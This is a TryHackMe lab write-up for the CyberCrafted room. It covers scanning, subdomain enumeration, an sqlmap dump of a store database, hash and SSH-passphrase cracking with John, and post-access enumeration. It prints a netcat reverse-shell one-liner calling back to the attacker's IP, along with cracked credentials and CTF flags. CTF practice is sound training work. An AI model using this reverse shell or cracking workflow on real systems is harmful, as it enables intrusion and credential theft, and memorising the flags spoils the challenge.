





# THM - CyberCrafted

## Date Commenced 01APR2022


---
## IP Address

### Attempt 1
export IP=10.10.64.160

### Attempt 2
export IP=10.10.184.52

---
## Open Ports

> 22 /tcp    open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
>
> 80 /tcp    open   http       Apache httpd 2.4.29 ((Ubuntu))
>
> 25565 /tcp open   minecraft  Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)

> `rustscan -a $IP | tee ./Results/01-rust-initial.log`

[RustScan Results File](Results/01-rust-initial.log)

> `nmap -sV -sC -Pn -A -p $ports $IP -oN ./Results/02-nmap-initial.log`

[Nmap Results File](Results/02-nmap-initial.log)


---
## Web Page

### Main Page 
A basic web page that states the server and store are in development. There is a note in the source code:

```
<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->
```

### Directories
**Feroxbuster**:

> `feroxbuster -u http://$IP/ -x php,pdf,txt,epub,html,cgi,css -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o ./Results/03-ferox-initial.log -t 200 `

[Feroxbuster Results File](Results/03-ferox-initial.log)

### Vhosts
**Gobuster**:

> `sudo gobuster vhost -u http://$IP  --wordlist=/usr/share/wordlists/SecLists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 250 2> /dev/null -o ./Results/04-gobuster-vhosts.log`

[GoBuster Results File](Results/04-gobuster-vhosts.log)

### Enumerate the Subdomains

#### admin.cybercrafted.thm
Only */assets/* and */server-status/* to be found. */assets/* is browseable but nothing of interest there:



> `gobuster dir -u http://admin.cybercrafted.thm  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 2> /dev/null -o ./Results/05-gobuster-sub-admin.log`

[Gobuster SubDomain admin Results](Results/05-gobuster-sub-admin.log)

#### store.cybercrafted.thm
Only */assets/* and */server-status/* to be found. Neither are accessible.

> `gobuster dir -u http://store.cybercrafted.thm  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 2> /dev/null -o ./Results/06-gobuster-sub-store.log`

[Gobuster SubDomain store Results](Results/06-gobuster-sub-store.log)

Try again:

> ` gobuster dir -u http://store.cybercrafted.thm  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,cgi,pdf,html,dll,css,xss,rss,asp,xml,jss,psp -t 250 2> /dev/null -o ./Results/08-gobuster-sub-store-files.log`

[Gobuster store Files Results](Results/08-gobuster-sub-store-files.log)

Shows a *search.php* landing point:



#### `www.cybercrafted.thm`
As well as */assets/* and */server-status/*, there is a */secret/* folder:



> `gobuster dir -u http://www.cybercrafted.thm  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 2> /dev/null -o ./Results/07-gobuster-sub-www.log`

[Gobuster SubDomain www Results](Results/07-gobuster-sub-www.log)

There are some image files in the */secret/* folder. Download a check them out. Nothing sticks out here yet.


---
## store.cybercrafted.thm/search.php
Can search for items in the store. Some items are returned. Nothing in source code. Maybe an SQL database.

> `sqlmap -u http://store.cybercrafted.thm/search.php --forms --dump`

```
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+
```

### Crack the Hash
Give it to **John**:

```
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ echo "88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01" > hash01
                                                                                                                                                                   
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-SHA1 hash01
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
diamond123456789 (?)     
1g 0:00:00:00 DONE (2022-04-02 09:00) 1.818g/s 15705Kp/s 15705Kc/s 15705KC/s diamond1336..diamond123123
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

### Creds

> UN: xXUltimateCreeperXx  
> PW: diamond123456789  


---
## Login to the Admin Page
Seems to simple:



What can we input?? Tried the list of reverse shell commands from *pentestmonkey*. This one finally worked:

> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.137 4444 >/tmp/f'


---
## Linux Enumeration
Poke the penguin:

Basic enum got me nowhere; Fire up linpeas:

[Linpeas Results File](Results/09-linpeas.log)

### SSH Keys
Linpeas finds an SSH key for the *xXUltimateCreeperXx* user. Can we connect.  

Nope. Need to run the SSH key through **john** to find the passphrase:

```
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ /usr/share/john/ssh2john.py id_rsa > passphrase
                                                                                                                                         
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ ls                          
background-1.jpg  hash01  herobrine-3.jpeg  id_rsa  linpeas.sh  pack-2.png  passphrase
                                                                                                                                         
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passphrase              
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)     
1g 0:00:00:00 DONE (2022-04-02 09:26) 1.960g/s 3717Kp/s 3717Kc/s 3717KC/s creepygoblin..creep20
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> SSH Passphrase: `creepin2006`

Can I login now:

> `Yes`


---
## MOAR ENUMS:
**Linpeas** showed a **cron** entry to take note of:

> `* *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafted/world/*`

Maybe try and create a **tar** file and update the **PATH** to include its location and then run it. That may take longer than expected as this only runs on the first of every month. Hmmmm....

### Minecraft
**nmap** showed that a **minecraft** server is running on the machine. Ima gonna go find it:

```
xxultimatecreeperxx@cybercrafted:~$ find / -type f -iname minecraft* 2> /dev/null
/opt/minecraft/minecraft_server_flag.txt
/etc/systemd/system/minecraft.service
xxultimatecreeperxx@cybercrafted:~$ cd /opt/minecraft/
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ ls
cybercrafted  minecraft_server_flag.txt  note.txt  WorldBackup
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ cat minecraft_server_flag.txt 
THM{ba93767ae3db9f5b8399680040a0c99e}
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ cat note.txt
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.
```

### Plugins
See what I can find:

```
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ ls
language.yml  log.txt  passwords.yml  settings.yml
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat passwords.yml 
cybercrafted: dcbf543ee264e2d3a32c967d663e979e
madrinch: 42f749ade7f9e195bf475f37a44cafcb
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ pwd
/opt/minecraft/cybercrafted/plugins/LoginSystem
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ 
```

So, *crackstation.net* cannot find the *cybercrafted* password, but can find the *madrinch* password. But I dont know where to use it yet.




